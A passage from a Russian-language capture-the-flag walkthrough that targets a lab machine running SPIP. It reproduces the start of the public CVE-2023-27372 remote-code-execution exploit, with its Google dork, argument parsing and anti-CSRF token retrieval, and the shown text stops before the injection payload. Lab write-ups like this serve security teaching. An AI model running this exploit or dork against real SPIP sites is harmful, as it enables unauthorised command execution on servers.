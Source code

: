 В данном случае нас конкретно интересует только адрес http://10.10.175.180/spip/, который указывает на специфическую 
библиотеку spip.

--------------------------------------------------------------------
Проведем поиск в google - spip exploit
переходим на страницу - https://www.exploit-db.com/exploits/51536
и находим уже написанный на питоне эксплойт, которым и воспользуемся, для этого создаем файл командой:
```commandline
nano exploit.py
```

ниже я продублировал содержимое этого файла, или Вы можете просто скопировать содержимое текущего каталога, в 
котором я сохранил все необходимые нам для работы файлы:
```commandline
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

# Exploit Title: SPIP v4.2.1 - Remote Code Execution (Unauthenticated)
# Google Dork: inurl:"/spip.php?page=login"
# Date: 19/06/2023
# Exploit Author: nuts7 (https://github.com/nuts7/CVE-2023-27372)
# Vendor Homepage: https://www.spip.net/
# Software Link: https://files.spip.net/spip/archives/
# Version: < 4.2.1 (Except few fixed versions indicated in the description)
# Tested on: Ubuntu 20.04.3 LTS, SPIP 4.0.0
# CVE reference : CVE-2023-27372 (coiffeur)
# CVSS : 9.8 (Critical)
#
# Vulnerability Description:
#
# SPIP before 4.2.1 allows Remote Code Execution via form values in the public area because serialization is mishandled. Branches 3.2, 4.0, 4.1 and 4.2 are concerned. The fixed versions are 3.2.18, 4.0.10, 4.1.8, and 4.2.1.
# This PoC exploits a PHP code injection in SPIP. The vulnerability exists in the `oubli` parameter and allows an unauthenticated user to execute arbitrary commands with web user privileges.
#
# Usage: python3 CVE-2023-27372.py http://example.com

import argparse
import bs4
import html
import requests

def parseArgs():
    parser = argparse.ArgumentParser(description="Poc of CVE-2023-27372 SPIP < 4.2.1 - Remote Code Execution by nuts7")
    parser.add_argument("-u", "--url", default=None, required=True, help="SPIP application base URL")
    parser.add_argument("-c", "--command", default=None, required=True, help="Command to execute")
    parser.add_argument("-v", "--verbose", default=False, action="store_true", help="Verbose mode. (default: False)")
    return parser.parse_args()

def get_anticsrf(url):
    r = requests.get('%s/spip.php?page=spip_pass' % url, timeout=10)
    soup = bs4.BeautifulSoup(r.text, 'html.parser')
    csrf_input = soup.find('input', {'name': 'formulaire_action_args'})
    if csrf_input:
        csrf_value = csrf_input['value']
        if options.verbose:
            print("[+] Anti-CSRF token found : %s" % csrf_value)
        return csrf_value
```